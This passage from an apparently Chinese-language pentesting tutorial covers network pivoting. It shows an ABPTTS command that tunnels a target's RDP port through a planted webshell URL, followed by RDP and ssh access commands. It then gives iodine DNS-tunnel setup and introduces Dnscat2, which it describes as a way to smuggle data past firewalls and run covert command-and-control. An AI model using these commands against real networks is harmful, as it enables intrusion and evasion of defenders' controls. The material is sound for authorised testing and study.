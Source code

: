 ```
```
![](../pictures/porttransfer1.png)  
![](../pictures/porttransfer2.png)  
前面确认没有问题后,现在开始绑定端口，建立隧道，下面的意思就是把远端[目标机器]的3389端口和本地的1234端口进行绑定，-c用来指定webshell的配置文件[这里直接用默认的]，-u 指定webshell的url，关于更多选项用法，看下工具帮助就明白了，都非常简单的:  

`python abpttsclient.py -c webshell\config.txt -u "http://www.rcoil.com/abptts.aspx" -f 127.0.0.1:1234/127.0.0.1:3389`
隧道建立成功后，用相应的socks代理客户端工具[proxychains,sockscap……]连接到前面已经绑定好的本地端口[1234端口]，即可访问目标内网中的资源:  
```
mstsc 127.0.0.1:1234
putty ssh root@127.0.0.1 -p 1234 -i ~/.ssh/xxx/id_rsa  	如果对方的ssh只允许证书登录,加载上自己的证书即可
```

## DNS隧道
不论对出站流量采取多么严格的访问控制，你可能都要允许至少对一个服务器的 DNS 请求。对手就可以利用这个防火墙上的“大洞”来偷运数据，并且建立一个非常难以限制的隐蔽命令控制信道。  

### Iodine
它几乎是和hans icmp隧道工具一样的工作机制，它在它们之间创建一对tun适配器和隧道数据作为DNS查询。[使用手册](http://dev.kryo.se/iodine/wiki/HowtoSetup)   
Server端：  

`iodined -f -c -P password 1.1.1.1 tunneldomain.com`  
Client端：  

`iodine -f -P password tunneldomain.com -r`  
成功连接将直接在客户端生成地址1.1.1.2。请注意，这种隧道技术的速度相当慢。最好的办法是在生成的连接上使用ssh连接：  

`ssh <user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080`  

### Dnscat2
[Dnscat2](https://github.com/iagox86/dnscat2) 通过建立C&C通道递归DNS查询。此工具不需要root/administrator权限（在Windows和Linux上都可以使用），它还支持端口转发。    
Server端：    
